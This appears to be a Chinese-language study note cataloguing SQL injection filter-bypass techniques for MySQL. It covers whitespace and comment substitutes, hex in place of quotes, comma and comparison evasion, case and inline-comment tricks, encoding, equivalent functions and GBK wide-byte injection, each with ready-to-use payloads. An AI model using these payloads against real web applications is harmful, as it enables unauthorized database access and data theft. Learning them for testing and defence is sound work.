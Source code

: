 ```yaml
---
icon: pen-to-square
date: 2025-04-30
tags: 
title: web6--sql注入
category:
  - 项目
---
```

## 1.绕过空格`（注释符/* */，%a0）`：

　　两个空格代替一个空格，用Tab代替空格，%a0=空格：`

```
%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/
```

最基本的绕过方法，用注释替换空格

## 2.括号绕过空格：

　　如果空格被过滤，括号没有被过滤，可以用括号绕过。

　　在MySQL中，括号是用来包围[子查询](https://so.csdn.net/so/search?q=%E5%AD%90%E6%9F%A5%E8%AF%A2&spm=1001.2101.3001.7020)的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

```
select(user())from dual where(1=1)and(2=2)
```

这种过滤方法常常用于[time](https://so.csdn.net/so/search?q=time&spm=1001.2101.3001.7020) based盲注,例如：
```
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
```

## 3.引号绕过（使用十六进制）：
　　会使用到引号的地方一般是在最后的where子句中。如下面的一条sql语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：
```
select column_name  from information_schema.tables where table_name="users"
```

　　这个时候如果引号被过滤了，那么上面的where子句就无法使用了。那么遇到这样的问题就要使用十六进制来处理这个问题了。
　　users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：
　　
```
select column_name  from information_schema.tables where table_name=0x7573657273
```

##  4.逗号绕过（使用from或者offset）：
　　在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决：
```
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```
　　使用join：
```
union select 1,2     #等价于
union select * from (select 1)a join (select 2)b
```
　　使用like：
```
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```
　　对于limit可以使用offset来绕过：
```
select * from news limit 0,1
# 等价于下面这条SQL语句
select * from news limit 1 offset 0
```
## 5.比较符号（<>）绕过
过滤了<>：sqlmap盲注经常使用<>，使用between的脚本：
使用greatest()、least（）：（前者返回最大值，后者返回最小值）
　　同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到greatest来进行绕过了。
　　最常见的一个盲注的sql语句：

```
select * from users where id=1 and ascii(substr(database(),0,1))>64
```
　　此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用greatest来代替比较操作符了。greatest(n1,n2,n3,...)函数返回输入参数(n1,n2,n3,...)的最大值。
　　那么上面的这条sql语句可以使用greatest变为如下的子句:
```
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

### 使用between and：

   between a and b：

between 1 and 1; 等价于 =1

## 6.or and xor not绕过：

```

and=&&  or=||   xor=|   not=!
```
## 7.绕过注释符号（#，--(后面跟一个空格））过滤：
```
id=1' union select 1,2,3||'1
```
　　最后的or '1闭合查询语句的最后的单引号，或者：
```
id=1' union select 1,2,'3
```
## 8.=绕过：
　　使用like 、rlike 、regexp 或者 使用< 或者 >

## 9.绕过union，select，where等：
（1）使用注释符绕过：
　　常用注释符：
```
//，-- , /**/, #, --+, -- -, ;,%00,--a
```
　　用法：
```
U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user
```
（2）使用大小写绕过：
```
id=-1'UnIoN/**/SeLeCT
```
（3）内联注释绕过：
```
id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
```
（4） 双关键字绕过（若删除掉第一个匹配的union就能绕过）：
```
id=-1'UNIunionONSeLselectECT1,2,3–-
```
10.通用绕过（编码）：
　　如URLEncode编码，ASCII,HEX,unicode编码绕过：
```
or 1=1即%6f%72%20%31%3d%31，而Test也可以为CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)。
```
11.等价函数绕过：
```
hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@@user ==> user()

@@datadir ==> datadir()

举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　

或者：
substr((select 'password'),1,1) = 0x70
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
```
12.宽字节注入：
　　过滤 ' 的时候往往利用的思路是将 ' 转换为 \' 。

　　在 mysql 中使用 GBK 编码的时候，会认为两个字符为一个汉字，一般有两种思路：

　　（1）%df 吃掉 \ 具体的方法是 urlencode('\) = %5c%27，我们在 %5c%27 前面添加 %df ，形成 %df%5c%27 ，而 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，%df%5c 就是一个汉字，%27 作为一个单独的（'）符号在外面：

id=-1%df%27union select 1,user(),3--+
　　（2）将 \' 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27 ，后面的 %5c 会被前面的 %5c 注释掉。

一般产生宽字节注入的PHP函数：
   1.replace（）：过滤 ' \ ，将 ' 转化为 \' ，将 \  转为 \\，将 " 转为 \" 。用思路一。

   2.addslaches()：返回在预定义字符之前添加反斜杠（\）的字符串。预定义字符：' , " , \ 。用思路一

（防御此漏洞，要将 mysql_query 设置为 binary 的方式）

　 　3.mysql_real_escape_string()：转义下列字符：

\x00     \n     \r     \     '     "     \x1a
（防御，将mysql设置为gbk即可）

PCRE绕过：
union/*'+'a'*1000001+'*/select


参考链接：[【网络安全】SQL注入绕过技巧--CSDN](https://blog.csdn.net/Cairo_A/article/details/134882367)